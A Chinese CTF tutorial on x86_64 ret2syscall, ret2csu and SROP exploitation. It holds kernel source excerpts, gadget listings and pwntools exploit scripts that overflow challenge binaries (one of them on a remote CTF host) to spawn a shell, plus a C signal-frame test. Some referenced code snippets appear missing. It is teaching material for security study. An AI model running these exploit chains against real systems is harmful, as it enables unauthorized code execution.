










ROP 技巧补坑¶
本节作者:EROORvbsyes
前言¶
前面我们讲了不少 ret2xxx 系列，但是把 ret2syscall 漏掉了。
这篇就先把这个坑补上，顺手把 ret2csu 和 SROP 也带一下。
另外这次的 blog 是我用手机写的，所以图会比较少，基本可以当成纯文字笔记看。
说明：本文默认讨论 x86_64 Linux 场景。
如果是 32 位程序、其他架构，或者题目开了额外限制，那么系统调用号、寄存器约定和 gadget 写法都要重新确认。
ret2syscall¶
基本原理¶
程序和内核交互要靠系统调用，可以粗略理解成：
系统调用本质上是内核暴露给用户态程序的接口。像文件读写、网络通信、进程控制这类操作，最后都要落到系统调用上。
不同架构发起系统调用的方式不同：
- 32 位 Linux 常见是
int 0x80 - 64 位 Linux 常见是
syscall
在 x86_64 Linux 下，常见的系统调用约定是：
rax：系统调用号rdi、rsi、rdx、r10、r8、r9：前 6 个参数- 返回值放回
rax
这里要区分清楚“函数调用约定”和“系统调用约定”。
例如普通的 System V AMD64 调用约定里第 4 个参数常走rcx，但syscall这里通常要放到r10。
系统调用进入内核态后，可能很快返回，也可能发生阻塞。
它的额外开销主要来自用户态和内核态之间的切换，而不是“所有系统调用都一定特别慢”。
一个简单的 read 例子¶
read 本身就是系统调用，libc 里的 read 只是对它的一层封装。
为了方便说明，这里直接假设缓冲区地址已经准备好了：
这段代码等价于：
如果系统调用失败，错误通常会体现在 rax 返回负值，而不是“程序自动停住”。
在 ROP 里怎么用¶
ret2syscall 的核心思路是：当我们拿不到 libc 地址，或者题目本来就是想考系统调用时，直接布置好寄存器，然后执行 syscall gadget。
在 x86_64 Linux 下，如果我们想执行：
那么需要满足：
rax = 59rdi = "/bin/sh"的地址rsi = 0rdx = 0
对应的 ROP 链可以写成：
如果没有 xor rsi, rsi ; ret 或 xor rdx, rdx ; ret 这类 gadget，也可以改成 pop rsi ; ret、pop rdx ; ret 再传 0。
这样做的好处是：
- 不依赖
system或execve的libc地址 - 很适合没有 libc 泄露、但有足够 syscall/gadget 的题
- 常见用途包括拿 shell、做 ORW（
open/read/write）等
ret2syscall并不等于“一定不会出错”。
你仍然要确认：
- 架构和系统调用号是否匹配
- gadget 是否真的以
ret结束- 指针是否可访问
- 当前链条是否满足栈和寄存器约束
调试时要注意什么¶
最容易混淆的点，不是“内核版本差一点就完全不能用”，而是下面这些：
- 架构不同：32 位和 64 位的系统调用号、寄存器约定都不同
- ABI 不同：别把普通函数调用约定和
syscall约定混在一起 - 返回值判错：系统调用失败时，通常是
rax返回错误码，而不是直接崩溃 - 安全机制限制：有些题会开
seccomp，这时不是链子写错，而是系统调用本身被过滤了
总结补充¶
当题目是x86_32的时候就不能用syscall了，此时要用
int 0x80来进行系统调用，但还是使用eax传递调用号,edi,esi,edx等寄存器分别传递参数。 若开启 seccomp，需先用 seccomp-tools dump 查看允许的系统调用，必要时改用 open/read/write 组合（ORW）。
具体题目¶
分析¶
这个题目给出了源文件，我们直接看：
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
#include<string.h>
char binsh[]="/bin/sh";
int you_can_not_exec(){
asm volatile (
"pop rdi;"
"ret;"
"pop rax;"
"ret;"
"pop rsi;"
"ret;"
"pop rdx;"
"ret;"
"syscall;"
);
return 0;
}
int vuln(){
char vul[0x80];
memset(vul,0,0x80);
read(0,vul,0x100);
puts(vul);
return 0;
}
int main(){
vuln();
return 0;
}
(PLANA)--> pwn checksec ./ret2syscall
[*] '/home/kali/ctfwiki/ret2syscall/ret2syscall'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
可以看到没有PIE
我们提取一下gadget:
0x000000000040114c : pop rax ; ret
0x000000000040112d : pop rbp ; ret
0x000000000040114a : pop rdi ; ret
0x0000000000401150 : pop rdx ; ret
0x000000000040114e : pop rsi ; ret
0x0000000000401152 : syscall
这个题目比较简单，我们考虑这样构造payload:
| STACK |
|---|
| rbp_space |
| pop rdi(原rip_space) |
| bin_sh_address |
| pop rdx |
| 0 |
| pop rsi |
| 0 |
| pop rax |
| 59 |
| syscall |
这样就相当于执行了SYS_execve("/bin/sh",0,0);这句代码可以在6.x内核版本中正常运行，5.12.13不可用，其他版本内核笔者还暂未考证，请读者自证。
exp¶
#!/bin/python3
from pwn import *
p=process("./ret2syscall")
pop_rdi=0x000000000040114a
pop_rax=0x000000000040114c
pop_rdx=0x0000000000401150
pop_rsi=0x000000000040114e
syscall=0x0000000000401152
payload=b""
payload+=b"\x00"*0x80
payload+=p64(0)
payload+=p64(pop_rdi)
payload+=p64(binsh)#binsh地址需要自己提取
payload+=p64(pop_rsi)
payload+=p64(0)
payload+=p64(pop_rdx)
payload+=p64(0)
payload+=p64(pop_rax)
payload+=p64(59)
payload+=p64(syscall)
p.send(payload)
p.interactive()
ret2csu¶
ret2csu 一般是利用 __libc_csu_init 里的 gadget，来完成参数控制和一次间接调用。
它常见于没有现成 pop rdx ; ret、pop rsi ; ret 等 gadget 的场景。
先提醒一句：
ret2csu的可用性和具体形态取决于实际二进制。
新工具链下，经典 gadget 可能变少，甚至根本没有，所以一定要以 你手上的反汇编结果 为准。
下面这个例子里，我们主要关注两段：
0000000000401240 <__libc_csu_init>:
...
401280: mov rdx, r15 // 标号1
401283: mov rsi, r14
401286: mov edi, r13d
401289: call qword ptr [rbx+r12*8]
40128d: add r12, 0x1
401291: cmp rbp, r12
401294: jne 401280 <__libc_csu_init+0x40>
401296: add rsp, 0x8
40129a: pop rbx // 标号2
40129b: pop rbp
40129c: pop r12
40129e: pop r13
4012a0: pop r14
4012a2: pop r15
4012a4: ret
这一版 gadget 的寄存器关系¶
如果先执行“标号 2”，再跳到“标号 1”，那么这份反汇编里常见的控制关系是：
rbx = 函数指针所在的内存地址rbp = 1r12 = 0r13 = edir14 = rsir15 = rdx
原因是这里真正执行的是：
所以如果想只调用一次，通常让：
r12 = 0rbp = 1
这样 add r12, 1 之后就能满足退出条件，不会继续循环。
注意：
- 这里调用的是“内存里的函数指针”，不是把函数地址直接塞给
rbxmov edi, r13d只会保留低 32 位，所以第一个参数如果是 64 位指针，往往还得额外找pop rdi ; ret- 不同二进制里也常见
call [r12 + rbx*8]这种变体，寄存器含义会跟着交换，别照抄模板
一个更稳妥的 payload 例子¶
原文里那个 payload = flat(...) 会把前面已经拼进去的内容覆盖掉，而且少了循环退出后要吃掉的栈槽。
更稳妥的写法可以像这样：
def build_ret2csu(func_ptr_addr, edi, rsi, rdx, next_rip):
payload = p64(CSU_POP_GADGET) # 标号2
payload += flat(
func_ptr_addr, # rbx
1, # rbp
0, # r12
edi, # r13 -> edi
rsi, # r14 -> rsi
rdx, # r15 -> rdx
)
payload += p64(CSU_CALL_GADGET) # 标号1
# 经过 call / add / cmp 之后，函数还会继续执行：
# add rsp, 0x8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += flat(
0, # add rsp, 0x8 吃掉的占位
0, 0, 0, 0, 0, 0,
next_rip,
)
return payload
这个版本的重点不是“万能模板”，而是提醒你两件事：
- 要按 实际 pop 顺序 摆参数
- 要把 gadget 后续会额外消耗的栈空间一起算进去
题目¶
这里可以看一下第 18 届极客大挑战的 oldrop，考的是 csu 的变种，挺适合练手。题目
这个题目就比较经典，将传统的csu变化了一下，此时就需要选手有随机应变的能力，就是直接将特殊的csu拎出来，单独利用即可。exp中有csu的部分代码，可以参考一下
因为篇幅问题，这里请大家自主思考 exp:
from pwn import *
# p=process("./pwn")
context.log_level='debug'
p=remote("geek.ctfplus.cn",32150)
elf=ELF("./pwn")
libc=ELF("./libc/libc.so.6")
'''
.text:00000000004012B0 loc_4012B0: ; CODE XREF: init+54↓j
.text:00000000004012B0 mov rdx, r14
.text:00000000004012B3 mov rsi, r13
.text:00000000004012B6 mov edi, r12d
.text:00000000004012B9 call qword ptr [r15+rbx*8]
.text:00000000004012BD add rbx, 1
.text:00000000004012C1 cmp rbp, rbx
.text:00000000004012C4 jz short loc_4012B0
.text:00000000004012C6
.text:00000000004012C6 loc_4012C6: ; CODE XREF: init+35↑j
.text:00000000004012C6 add rsp, 8
.text:00000000004012CA pop rbx //0
.text:00000000004012CB pop rbp
.text:00000000004012CC pop r12 //edi
.text:00000000004012CE pop r13 //rsi
.text:00000000004012D0 pop r14 //rdx
.text:00000000004012D2 pop r15 //rip
.text:00000000004012D4 retn
'''
def get_csu(rbx,rsi,edi,rip,rbp,rdx):
payload=p64(rbx)+p64(rsi)+p64(edi)+p64(rip)+p64(rbp)+p64(rdx)
return payload
rbp=0x404500+0x500
ret=0x000000000040101a
reread=0x401162
entry=0x4012ca
end=0x4012b0
leave=0x0000000000401179
offset=128
start=0x401070
tmp_rbp=0x4043b0+0x500
mov_eax_ebp_syscall=0x000000000009b177
payload=b"\x00"*offset
payload+=p64(rbp+0x30)
payload+=p64(reread)
libc_partial=0x4049c8#0x404478+0x500
print(p.recvuntil(b"!\x00\n"))
p.send(payload)
payload=b"\x00"*(offset-0x30)
payload+=p64(start)
payload+=b"\x00"*(offset-len(payload))
payload+=p64(rbp)
payload+=p64(start)
p.send(payload)
print(p.recvuntil(b"!\x00\n"))
payload=p64(elf.symbols['write'])
payload+=p64(reread)
payload+=b"\x00"*(offset-len(payload))
payload+=p64(tmp_rbp)
payload+=p64(entry)
payload+=get_csu(0,tmp_rbp,1,libc_partial,8,0x404330+0x500)
payload+=p64(end)
payload+=p64(0)
payload+=get_csu(0,tmp_rbp,1,libc_partial,8,0x404330+8+0x500)
payload+=p64(end)
p.send(payload)
recv=p.recv(8)
print(recv)
libc_base=u64(recv)-0x2a28b#0x252000
log.success(f"libc_base is {str(hex(libc_base))}")
log.success(f"libc_start_main+139 is {str(hex(u64(recv)))}")
ret_libc=0x000000000002882f
payload=p64(libc_base+mov_eax_ebp_syscall)
payload+=b"/bin/sh\x00"
payload+=b"\x00"*(0x80-len(payload))
payload+=p64(0)#0x404330
payload+=p64(entry)
payload+=get_csu(0,59,0x404330+8+0x500,0,0,0x404330+0x500)#
payload+=p64(end)
# gdb.attach(p,gdbscript="b *0x40117b")
p.send(payload)
p.interactive()
SROP¶
可以先参考这个视频：
CTF 基础教程 ---- Pwn 第四课 SROP - 哔哩哔哩
本章将会从内核角度开始从底层逐渐剖析SROP的基本原理，需要读者具备C语言的阅读能力。如果您暂时对C语言不熟悉，可以直接看总结。
SROP（Sigreturn-Oriented Programming） 是一种精巧的漏洞利用技术，它利用 Unix/Linux 系统中的信号处理机制和 sigreturn 系统调用，能够以极少的 gadget 控制大量寄存器(并不代表占用空间少)，甚至实现任意代码执行。
signal 机制¶
signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。
内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
那么，对应的在Linux中存在这么一个系统调用:rt_sigreturn 。接下来我们仔细分析一下它的代码。
rt_sigreturn 详细剖析¶
该机制在Linux内核中被实现为rt_sigreturn,我们来阅读一下他的代码：(我们这里讨论64位，代码基于Linux-5.12.13内核)
SYSCALL_DEFINE0(rt_sigreturn)
{
struct pt_regs *regs = current_pt_regs(); //取程序当前的寄存器列表
struct rt_sigframe __user *frame;
sigset_t set;
unsigned long uc_flags;
frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long)); //基于程序rsp计算frame
if (!access_ok(frame, sizeof(*frame))) //检查frame合法性
goto badframe;
if (__get_user(*(__u64 *)&set, (__u64 __user *)&frame->uc.uc_sigmask)) //拷贝uc.uc_sigmask
goto badframe;
if (__get_user(uc_flags, &frame->uc.uc_flags)) //拷贝uc.uc_flags
goto badframe;
set_current_blocked(&set);
if (restore_sigcontext(regs, &frame->uc.uc_mcontext, uc_flags)) //拷贝寄存器
goto badframe;
if (restore_altstack(&frame->uc.uc_stack))
goto badframe;
return regs->ax; //返回rax寄存器的值，这样再调用后，rax依旧不会改变
badframe:
signal_fault(regs, frame, "rt_sigreturn");
return 0;
}
我们不难发现，只有当restore_sigcontext返回0值才能正常走return，否则进程就会被rt_sigreturn终止。
那么接下来我们就需要观察restore_sigcontext函数了。
static int restore_sigcontext(struct pt_regs *regs,
struct sigcontext __user *usc,
unsigned long uc_flags)
{
struct sigcontext sc;
/* Always make any pending restarted system calls return -EINTR */
current->restart_block.fn = do_no_restart_syscall;
if (copy_from_user(&sc, usc, CONTEXT_COPY_SIZE)) //从用户空间安全拷贝
return -EFAULT;
regs->bx = sc.bx;
regs->cx = sc.cx;
regs->dx = sc.dx;
regs->si = sc.si;
regs->di = sc.di;
regs->bp = sc.bp;
regs->ax = sc.ax;
regs->sp = sc.sp;
regs->ip = sc.ip; //改写指令计数寄存器
regs->r8 = sc.r8;
regs->r9 = sc.r9;
regs->r10 = sc.r10;
regs->r11 = sc.r11;
regs->r12 = sc.r12;
regs->r13 = sc.r13;
regs->r14 = sc.r14;
regs->r15 = sc.r15;
/* Get CS/SS and force CPL3 */
regs->cs = sc.cs | 0x03;
regs->ss = sc.ss | 0x03;
regs->flags = (regs->flags & ~FIX_EFLAGS) | (sc.flags & FIX_EFLAGS);
/* disable syscall checks */
regs->orig_ax = -1;
/*
* Fix up SS if needed for the benefit of old DOSEMU and
* CRIU.
*/
if (unlikely(!(uc_flags & UC_STRICT_RESTORE_SS) && user_64bit_mode(regs)))
force_valid_ss(regs);
return fpu__restore_sig((void __user *)sc.fpstate,
IS_ENABLED(CONFIG_X86_32));
}
我们发现改写寄存器的主要操作就在这一步完成的，其中regs结构体保存在内核里面，sc则是在用户栈上，从用户栈上恢复寄存器到程序regs结构体，在最后函数退出时就会将regs中的值赋给寄存器了。
先来看看pt_regs的定义:
struct pt_regs {
/*
* C ABI says these regs are callee-preserved. They aren't saved on kernel entry
* unless syscall needs a complete, fully filled "struct pt_regs".
*/
unsigned long r15;
unsigned long r14;
unsigned long r13;
unsigned long r12;
unsigned long bp;
unsigned long bx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
unsigned long r11;
unsigned long r10;
unsigned long r9;
unsigned long r8;
unsigned long ax;
unsigned long cx;
unsigned long dx;
unsigned long si;
unsigned long di;
/*
* On syscall entry, this is syscall#. On CPU exception, this is error code.
* On hw interrupt, it's IRQ number:
*/
unsigned long orig_ax;
/* Return frame for iretq */
unsigned long ip;
unsigned long cs;
unsigned long flags;
unsigned long sp;
unsigned long ss;
/* top of stack page */
};
再看看 sigcontext 结构体，这个尤为重要，是SROP的核心结构体
struct rt_sigframe {
char __user *pretcode;
struct ucontext uc;
struct siginfo info;
/* fp state follows here */
};
struct ucontext {
unsigned long uc_flags;
struct ucontext *uc_link;
stack_t uc_stack;
struct sigcontext uc_mcontext;
sigset_t uc_sigmask; /* mask last for extensibility */
};
typedef struct sigaltstack {
void __user *ss_sp;
int ss_flags;
size_t ss_size;
} stack_t;
struct sigcontext {
__u64 r8;
__u64 r9;
__u64 r10;
__u64 r11;
__u64 r12;
__u64 r13;
__u64 r14;
__u64 r15;
__u64 rdi;
__u64 rsi;
__u64 rbp;
__u64 rbx;
__u64 rdx;
__u64 rax;
__u64 rcx;
__u64 rsp;
__u64 rip;
__u64 eflags; /* RFLAGS */
__u16 cs;
__u16 gs;
__u16 fs;
union {
__u16 ss; /* If UC_SIGCONTEXT_SS */
__u16 __pad0; /* Alias name for old (!UC_SIGCONTEXT_SS) user-space */
};
__u64 err;
__u64 trapno;
__u64 oldmask;
__u64 cr2;
struct _fpstate __user *fpstate; /* Zero when no FPU context */
__u64 reserved1[8];
};
那么实际上，整个我们要布置的payload应该是rt_sigframe展开后：
struct rt_sigframe{
char __user *pretcode;
unsigned long uc_flags;
struct ucontext *uc_link;
void __user *ss_sp;
int ss_flags;
size_t ss_size;
__u64 r8;
__u64 r9;
__u64 r10;
__u64 r11;
__u64 r12;
__u64 r13;
__u64 r14;
__u64 r15;
__u64 rdi;
__u64 rsi;
__u64 rbp;
__u64 rbx;
__u64 rdx;
__u64 rax;
__u64 rcx;
__u64 rsp;
__u64 rip;
__u64 eflags; /* RFLAGS */
__u16 cs;
__u16 gs;
__u16 fs;
union {
__u16 ss; /* If UC_SIGCONTEXT_SS */
__u16 __pad0; /* Alias name for old (!UC_SIGCONTEXT_SS) user-space */
};
__u64 err;
__u64 trapno;
__u64 oldmask;
__u64 cr2;
struct _fpstate __user *fpstate; /* Zero when no FPU context */
__u64 reserved1[8];
sigset_t uc_sigmask; /* mask last for extensibility */
struct siginfo info; //直接忽略，基本不影响程序运行
}
这张图算很老了，但是很经典:

我们跟踪restore_sigcontext的frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long));这一行。可以发现这一行代码基于用户栈指针rsp获得了frame。后面该函数又会基于该frame给寄存器赋值。
我们看到这里也就知道了SROP是比较耗栈上空间的。一个 Signal Frame 在 x64 下通常占用约 0x100~0x200 字节(连续)，栈溢出时要确保有足够空间。
那么我们在下面贴出测试代码，验证我们之前分析的准确性
#include "kernelpwn.h"
typedef struct stack_t {
void *ss_sp;
int ss_flags;
size_t ss_size;
} ;
typedef struct sigset_t{
unsigned long sig[1];
} ;
struct ucontext {
unsigned long uc_flags;
struct ucontext *uc_link;
stack_t uc_stack;
struct sigcontext uc_mcontext;
sigset_t uc_sigmask; /* mask last for extensibility */
};
struct rt_sigframe {
char *pretcode;
struct ucontext uc;
};
int ok(){
puts("it's works!");
}
struct rt_sigframe *rt;
int main(){
struct rt_sigframe rt_sigreturn;
memset(&rt_sigreturn,0,sizeof(struct rt_sigframe));
struct ucontext *uc = &rt_sigreturn.uc;
struct sigcontext *regs = &uc->uc_mcontext;
rt=&rt_sigreturn;
regs->rip=(__u64)&ok;
regs->rsp=(__u64)rt;
regs->rbp=(__u64)rt;
regs->cs=(__u16)0x33;
regs->__pad0=(__u16)0x2b;
ASM(
"mov rsp,rt;"
"add rsp,8;" //适配 frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long));
"mov rax,0xf;"
"syscall;"
);
_exit(0);
}
因为在用户空间api没有定义rt_sigframe等结构体,所以我们这里直接在C里面实现其结构体。另外为了确保CPU不会在syscall返回时候因为ss和cs错误的值抛出#GP（一般保护异常）或 #SS（栈段异常）最终被转换成SIGSEGV信号导致程序被杀死，我们要将cs设置为0x33，将ss设置为0x2b
注意：这里的cs和ss的值仅是在大多数平台是这样设置的，具体环境需要读者自己使用gdb调试得到
tips:使用 gdb 调试时通过 info registers cs ss 获取cs和ss当前值。建议在 SROP 中统一使用 SigreturnFrame 而不是手动构造，因为 pwntools 会自动填充正确的 cs/ss
注意：在C标准库中当引入sys/wait.h等其他头文件时会自动包含bits/sigcontext.h这个头文件，此时就不要自己实现sigcontext这个结构体了。但还是推荐直接引入这个头文件，但是引入后，要注意ss寄存器在x64情况下结构体成员名叫做__pad0
这里作者使用的是自己的头文件其中ASM宏被实现为#define ASM asm volatile使用指令gcc -static -o test test.c -masm=intel完成编译。
运行结果：
┌──(kali㉿kali)──<Just CTF For Pwn>──[~/hello-ctf/srop]
└─(PLANA)--> ./test
it's works!
zsh: segmentation fault ./test
可以看到成功输出了it's works!。但这里之所以爆出了段错误，是因为我们没有给ok函数布置返回地址，导致ret的时候地址无效，抛出了段错误
0x401dd7 <ok+4> lea rax, [rip + 0x8f567] RAX => 0x491345 ◂— "it's works!"
0x401dde <ok+11> mov rdi, rax RDI => 0x491345 ◂— "it's works!"
0x401de1 <ok+14> call puts <puts>
0x401de6 <ok+19> nop
0x401de7 <ok+20> pop rbp RBP => 0x7fffffffdb20
► 0x401de8 <ok+21> ret <0>
↓
验证证明了我们的分析是没有错误的。
SROP基本原理总结¶
最后我们知道了，如果需要进行SROP攻击，需要我们在栈上布置
rt_sigframe结构体。并且要注意栈空间的大小并且对齐栈指针，最后将rax设置为15，并调用syscall。 注意：因为SROP极度依赖rt_sigreturn系统调用，所以当程序开启沙盒后可能无法使用。因为sigreturn系统调用本身也可能被seccomp过滤（rt_sigreturn号为 15），若被禁止则 SROP 无效。而且SROP需要一个超长的连续空间用于结构体布置，若栈空间不足请考虑其他解法。
另外：
SROP 的精髓在于利用内核“盲目信任”
Signal Frame的特性，以一次系统调用换取对所有寄存器的控制。它特别适合以下场景：
- 程序没有足够的 pop rdi; ret、pop rsi; ret 等 gadget；
- 程序自身含有 syscall 指令，且能控制 rax；
- 栈上可以布置连续的大块数据。
SROP题目示例¶
我们首先先给出题目
先用
看题目的架构

可以看见题目是一个64位的可执行程序。 现在就可以开始想64位程序如何传参了
再使用
来查看程序保护开启情况

可以发现程序主要开启了NX保护，我们这时只能考虑使用ROP链来构造payload。 不能使用shellcode
再使用IDA Pro逆向程序(没有IDA的可以使用r2)

发现程序main函数非常简单，只有几行汇编代码 其中我们发现了syscall系统调用，它会造成一个系统中断，程序会将控制权交给系统内核 然后进入内核态，内核会为其保存寄存器状态(称为Signal Frame)，然后内核会执行注册过 的signal handler，执行后再退出内核态，控制权还回，但是Signal Frame是保存在栈上的，所以用户可以 控制这些信息，这样就导致了SROP,寄存器就会被用户控制。
其中main函数调用了系统调用号为0的系统调用(mov rax,0 //系统调用号通过rax寄存器传递) 下面附上Linux 64位系统调用表（部分,详情可见https://blog.csdn.net/SUKI547/article/details/103315487） read：读取文件内容，系统调用号通常是0。 write：写入文件内容，系统调用号通常是1。 open：打开文件，系统调用号通常是2。 close：关闭文件描述符，系统调用号通常是3。 execve:执行一个命令,系统调用号通常是59 exit：终止进程，系统调用号通常是60。
那么0即是调用SYS_read，它允许我们输入0x400的数据，但是buf大小只有16(0x10)大小，很明显， 这是有栈溢出的，而且没有canary保护，栈溢出变得更简单了。

继续分析程序 发现有一个叫做gift的可疑函数：

其逻辑也是非常简单，它就传回了一个返回值15,众所周知，函数返回时是给rax赋值，那么这个函数就可以看 作是mov rax,15;ret;这个gadget。那么有什么用呢，相信大家都想到了系统调用，正好15对应的就是sigreturn的调用号 sigreturn会根据栈空间给寄存器赋值，以恢复进程调用前的状态，那么我们就可以利用sigreturn来 篡改寄存器。
